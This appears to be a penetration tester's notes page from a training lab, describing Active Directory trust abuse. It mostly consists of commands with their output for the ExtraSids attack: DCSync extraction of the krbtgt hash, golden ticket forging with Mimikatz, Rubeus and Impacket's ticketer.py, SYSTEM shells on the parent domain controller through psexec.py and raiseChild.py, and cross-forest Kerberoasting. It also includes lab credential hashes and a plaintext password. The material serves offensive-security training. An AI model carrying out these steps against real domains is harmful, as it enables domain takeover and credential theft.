


Domain Trust Attack
####################

Date: 2025-01-06 11:45:37

Status: #new

Tags: :ref:`active directory enumeration attacks`

----

Description 
**************

A trust is to establish a domain-domain or forest-forest authentication.  The direction of the trust can vary.

Types of trust
***************

1. Parent Child:  domains and sub domains can authenticate back and forth. 
2. Cross-link:  A trust between child domains 
3. External: Non-Transitive trust between separate domains in separate forests (SIDs are scrubbed)
4. Tree-root: Two way transitive trust between a forest root domain and a new tree root domain. 
5. Forest: A transitive trust between two forest root domains 
6. ESAE: A bastion forest to manage AD. 

Trusts can be setup in two directions 

1. One-way
2. Two-way

Enumerating Trust relationships
*********************************

We can use the Get-ADTrust cmdlet to enumerate 
===============================================

.. code-block:: powershell

    PS C:\htb> Import-Module activedirectory
    PS C:\htb> Get-ADTrust -Filter *

We can also use the Get-DomainTrust to look at existing trusts.
=================================================================

.. code-block:: powershell

    PS C:\htb> Get-DomainTrust 

Using Get-DomainTrustMapping
==============================

.. code-block:: powershell

    PS C:\htb> Get-DomainTrustMapping

    SourceName      : INLANEFREIGHT.LOCAL
    TargetName      : LOGISTICS.INLANEFREIGHT.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : WITHIN_FOREST
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 6:20:22 PM
    WhenChanged     : 2/26/2022 11:55:55 PM

    SourceName      : INLANEFREIGHT.LOCAL
    TargetName      : FREIGHTLOGISTICS.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : FOREST_TRANSITIVE
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 8:07:09 PM
    WhenChanged     : 2/27/2022 12:02:39 AM

    SourceName      : FREIGHTLOGISTICS.LOCAL
    TargetName      : INLANEFREIGHT.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : FOREST_TRANSITIVE
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 8:07:08 PM
    WhenChanged     : 2/27/2022 12:02:41 AM

    SourceName      : LOGISTICS.INLANEFREIGHT.LOCAL
    TargetName      : INLANEFREIGHT.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : WITHIN_FOREST
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 6:20:22 PM
    WhenChanged     : 2/26/2022 11:55:55 PM

Checking Users in the Child Domain using Get-DomainUser
**********************************************************

using Get-DomainUser 
======================

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

    samaccountname
    --------------
    htb-student_adm
    Administrator
    Guest
    lab_adm
    krbtgt

Using netdom to query domain trust 
====================================

.. code-block:: console 

    C:\htb> netdom query /domain:inlanefreight.local trust
    Direction Trusted\Trusting domain                         Trust type
    ========= =======================                         ==========

    <->       LOGISTICS.INLANEFREIGHT.LOCAL
    Direct
    Not found

    <->       FREIGHTLOGISTICS.LOCAL
    Direct
    Not found

    The command completed successfully.

Using netdom to query domain controllers
===========================================

.. code-block:: console

    C:\htb> netdom query /domain:inlanefreight.local dc
    List of domain controllers with accounts in the domain:

    ACADEMY-EA-DC01
    The command completed successfully.

Using netdom to query workstations and servers
================================================

.. code-block:: console

    C:\htb> netdom query /domain:inlanefreight.local workstation
    List of workstations with accounts in the domain:

    ACADEMY-EA-MS01
    ACADEMY-EA-MX01      ( Workstation or Server )

    SQL01      ( Workstation or Server )
    ILF-XRG      ( Workstation or Server )
    MAINLON      ( Workstation or Server )
    CISERVER      ( Workstation or Server )
    INDEX-DEV-LON      ( Workstation or Server )
    ...SNIP...

Using :ref:`bloodhound` to enumerate trust relationships
**********************************************************

Attacking Parent-Child trust relationships
********************************************

ExtraSids Attack with Mimikatz
===============================

This allows for the parent domain to be compromised once the child domain has been taken.
by setting the SIDHistory for a child domain user account to `Enterprise Admins Group` the parent domain
will treat this account as so.  

**Here is how the exploit runs:**

Step 1: Obtaining the KRBTGT Account's NT Hash using Mimikatz

.. code-block:: powershell

    PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
    [DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'LOGISTICS\krbtgt' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : krbtgt

    ** SAM ACCOUNT **

    SAM Username         : krbtgt
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
    Account expiration   :
    Password last change : 11/1/2021 11:21:33 AM
    Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
    Object Relative ID   : 502

    Credentials:
    Hash NTLM: 9d765b482771505cbe97411065964d5f
        ntlm- 0: 9d765b482771505cbe97411065964d5f
        lm  - 0: 69df324191d4a80f0ed100c10f20561e

Step 2: Use Get-DomainsSID

.. code-block:: powershell

    PS C:\htb> Get-DomainSID

    S-1-5-21-2806153819-209893948-922872689

Step 3: Get the domain group SID

.. code-block:: powershell

    PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

    distinguishedname                                       objectsid                                    
    -----------------                                       ---------                                    
    CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

For fun, lets confirm that we do not have access to the parent domains file share 

.. code-block:: powershell

    PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

    ls : Access is denied
    At line:1 char:1
    + ls \\academy-ea-dc01.inlanefreight.local\c$
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
        + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

Step 4:  Creating a Golden ticket

.. code-block:: powershell

    PS C:\htb> mimikatz.exe

    mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    User      : hacker
    Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
    SID       : S-1-5-21-2806153819-209893948-922872689
    User Id   : 500
    Groups Id : *513 512 520 518 519
    Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
    ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
    Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
    -> Ticket : ** Pass The Ticket **

    * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session

Then confirm that the ticket is now in memory with kinit 

.. code-block:: powershell

    PS C:\htb> klist

    Current LogonId is 0:0xf6462

    Cached Tickets: (1)

    #0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
            Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
            KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
            Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
            Start Time: 3/28/2022 19:59:50 (local)
            End Time:   3/25/2032 19:59:50 (local)
            Renew Time: 3/25/2032 19:59:50 (local)
            Session Key Type: RSADSI RC4-HMAC(NT)
            Cache Flags: 0x1 -> PRIMARY
            Kdc Called:

Now we can access resources in the parent domain. We can check this with requesting a file:

.. code-block:: powershell

    PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
    Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
    Volume Serial Number is B8B3-0D72

    Directory of \\academy-ea-dc01.inlanefreight.local\c$

    09/15/2018  12:19 AM    <DIR>          PerfLogs
    10/06/2021  01:50 PM    <DIR>          Program Files
    09/15/2018  02:06 AM    <DIR>          Program Files (x86)
    11/19/2021  12:17 PM    <DIR>          Shares
    10/06/2021  10:31 AM    <DIR>          Users
    03/21/2022  12:18 PM    <DIR>          Windows
                0 File(s)              0 bytes
                6 Dir(s)  18,080,178,176 bytes free

ExtraSids Attack with Rubeus
===============================

.. code-block:: powershell

    PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

    ______        _                      
    (_____ \      | |                     
    _____) )_   _| |__  _____ _   _  ___ 
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.0.2 

    [*] Action: Build TGT

    [*] Building PAC

    [*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
    [*] SID            : S-1-5-21-2806153819-209893948-922872689
    [*] UserId         : 500
    [*] Groups         : 520,512,513,519,518
    [*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
    [*] ServiceKey     : 9D765B482771505CBE97411065964D5F
    [*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
    [*] KDCKey         : 9D765B482771505CBE97411065964D5F
    [*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
    [*] Service        : krbtgt
    [*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

    [*] Generating EncTicketPart
    [*] Signing PAC
    [*] Encrypting EncTicketPart
    [*] Generating Ticket
    [*] Generated KERB-CRED
    [*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

    [*] AuthTime       : 3/29/2022 10:06:41 AM
    [*] StartTime      : 3/29/2022 10:06:41 AM
    [*] EndTime        : 3/29/2022 8:06:41 PM
    [*] RenewTill      : 4/5/2022 10:06:41 AM

    [*] base64(ticket.kirbi):
        doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
        UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
        T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
        T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
        VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
        k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
        g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
        9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
        acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
        X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
        3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
        WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
        Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
        /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
        aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
        OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
        sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
        eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
        sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
        F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
        Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
        JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
        YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
        MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
        Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

    [+] Ticket successfully imported!

You can now verify that the ticket is in memory with kinit like before. 

Using the golden ticket to perform a DCSync attack 
===================================================

.. code-block:: powershell

    PS C:\Tools\mimikatz\x64> .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
    [DC] 'INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'INLANEFREIGHT\lab_adm' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : lab_adm

    ** SAM ACCOUNT **

    SAM Username         : lab_adm
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   :
    Password last change : 2/27/2022 10:53:21 PM
    Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
    Object Relative ID   : 1001

    Credentials:
    Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
        ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
        ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
        lm  - 0: 6053227db44e996fe16b107d9d1e95a0

If there are multiple domains that are not the same as the target domain, you will need to specify the exact domain to perform the attack 

.. code-block:: powershell

    mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

ExtraSIDS Attack from Linux
******************************

The same information is required to perform this attack from a Linux host:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Performing DCSync with :ref:`secretsdump.py`
=============================================

.. code-block:: bash

    Temen@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
    [*] Kerberos keys grabbed
    krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
    krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
    krbtgt:des-cbc-md5:fee04c3d026d7538
    [*] Cleaning up...

Now we can user :ref:`lookupsid.py` to perform a SID brute force to find the SID of the child domain. 

.. code-block:: bash

    Temen@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

    Password:
    [*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
    498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: INLANEFREIGHT\administrator (SidTypeUser)
    501: INLANEFREIGHT\guest (SidTypeUser)
    502: INLANEFREIGHT\krbtgt (SidTypeUser)
    512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
    513: INLANEFREIGHT\Domain Users (SidTypeGroup)
    514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
    515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
    516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
    517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
    518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
    519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)

From this search we see the domain sid is:      S-1-5-21-3842939050-3880317879-2865463114
and the sid of the enterprise admins is:        S-1-5-21-3842939050-3880317879-2865463114-519

Now we can user :ref:`ticketer.py` to construct a Golden Ticket 

.. code-block:: bash

    Temen@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    [*] Creating basic skeleton ticket and PAC Infos
    [*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
    [*] 	PAC_LOGON_INFO
    [*] 	PAC_CLIENT_INFO_TYPE
    [*] 	EncTicketPart
    [*] 	EncAsRepPart
    [*] Signing/Encrypting final ticket
    [*] 	PAC_SERVER_CHECKSUM
    [*] 	PAC_PRIVSVR_CHECKSUM
    [*] 	EncTicketPart
    [*] 	EncASRepPart
    [*] Saving ticket in hacker.ccache

Now we can set our environmental variable KRB5CCNAME 

.. code-block:: bash

    Temen@htb[/htb]$ export KRB5CCNAME=hacker.ccache 

Now we can test if this is working by using :ref:`psexec.py`

.. code-block:: bash

    Temen@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on 172.16.5.5.....
    [*] Found writable share ADMIN$
    [*] Uploading file nkYjGWDZ.exe
    [*] Opening SVCManager on 172.16.5.5.....
    [*] Creating service eTCU on 172.16.5.5.....
    [*] Starting service eTCU.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

    C:\Windows\system32> hostname
    ACADEMY-EA-DC01

Using :ref:`raisechild.py` to escalate
========================================

.. code-block:: bash

    Temen@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    [*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
    [*] Forest FQDN is: INLANEFREIGHT.LOCAL
    [*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
    [*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
    [*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
    LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
    LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
    [*] Getting credentials for INLANEFREIGHT.LOCAL
    INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
    INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
    [*] Target User account name is administrator
    INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
    INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
    [*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
    [*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Found writable share ADMIN$
    [*] Uploading file BnEGssCE.exe
    [*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Starting service UVNb.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

    C:\Windows\system32>exit
    [*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
    [*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Stopping service UVNb.....
    [*] Removing service UVNb.....
    [*] Removing file BnEGssCE.exe.....

Cross-Forest Kerberoasting
***************************

Enumerating Accounts for Associated SPNs Using Get-DomainUser
================================================================

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

    samaccountname
    --------------
    krbtgt
    mssqlsvc

We can see that there is a  mssqlsvc account, and after looking at it's group membership we see that is it also a member of the `Domain Admins` group. 

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

    samaccountname memberof
    -------------- --------
    mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL

We can try and Kerberoast this account using the `/domain` flag to specify the domain

.. code-block:: powershell

    PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

    ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.0.2

    [*] Action: Kerberoasting

    [*] NOTICE: AES hashes will be returned for AES-enabled accounts.
    [*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

    [*] Target User            : mssqlsvc
    [*] Target Domain          : FREIGHTLOGISTICS.LOCAL
    [*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

    [*] Total kerberoastable users : 1

    [*] SamAccountName         : mssqlsvc
    [*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
    [*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
    [*] PwdLastSet             : 3/24/2022 12:47:52 PM
    [*] Supported ETypes       : RC4_HMAC_DEFAULT
    [*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>

The hash can be attempted cracking with Hashcat

Attacking from Linux
=====================

**Usung GetUserSPNs.py**

.. code-block:: bash

    Temen@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
    -----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
    MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 

if we add the -request flag we can get the TGS Ticket. 

.. note:: adding the -outputfile <filename> allows a file to take the output.

.. code-block:: bash

    Temen@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
    -----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
    MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               

    $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>

The ticket can be cracked with mode 13100 

Using Bloodhound from Linux
==============================

Step 1:  Add the nameserver to resolv.conf 

.. code-block:: console

    Temen@htb[/htb]$ cat /etc/resolv.conf 

    # Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
    #     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
    # 127.0.0.53 is the systemd-resolved stub resolver.
    # run "resolvectl status" to see details about the actual nameservers.

    #nameserver 1.1.1.1
    #nameserver 8.8.8.8
    domain INLANEFREIGHT.LOCAL
    nameserver 172.16.5.5

Step 2: Run :ref:`bloodhound.py` 

.. code-block:: bash 

    Temen@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

    INFO: Found AD domain: inlanefreight.local
    INFO: Connecting to LDAP server: ACADEMY-EA-DC01
    INFO: Found 1 domains
    INFO: Found 2 domains in the forest
    INFO: Found 559 computers
    INFO: Connecting to LDAP server: ACADEMY-EA-DC01
    INFO: Found 2950 users
